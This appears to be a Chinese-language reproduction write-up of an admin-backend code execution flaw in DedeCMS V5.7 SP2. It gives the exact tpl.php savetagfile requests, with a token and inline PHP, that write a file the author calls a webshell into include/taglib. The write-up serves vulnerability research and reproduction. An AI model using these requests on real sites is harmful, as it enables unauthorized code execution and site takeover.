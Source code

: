# DedeCMS V5.7 SP2后台代码执行漏洞复现

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。Dedecms V5.7 SP2版本中的 tpl.php 中存在代码执行漏洞，可以通过该漏洞在增加新标签中上传木马，获取webshell。该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。

## 漏洞影响

DedeCMS V5.7 SP2

## 漏洞复现

此漏洞位于后台，因此我们需要先登录到后台

默认后台地址 dede/ ，先按照网上已有的文章复现

先获取 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

得到 token

```plain
33980963afa91dcc6c2f1efceefc87b0
```

然后访问

```plain
http://www.dedecms521.com/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=33980963afa91dcc6c2f1efceefc87b0
```

这时就已经写入了 webshell

```plain
http://www.dedecms521.com/include/taglib/secnote.lib.php
```

![img](https://gitee.com/N0puple/nopic/raw/master/img/image-20210626220121525.png)

## 总结

其实这个漏洞只是 dede 提供的一个文件管理的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的。

该过程实际上就是

```plain
模板 -> 标签源码管理 -> 增加一个新的标签
```

然后填入自己的代码

```php
<?php phpinfo();?>
```

## 参考链接

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/DedeCMS V5.7 SP2后台存在代码执行漏洞/`



`github` 链接：`https://github.com/N0puple/vulPOC`

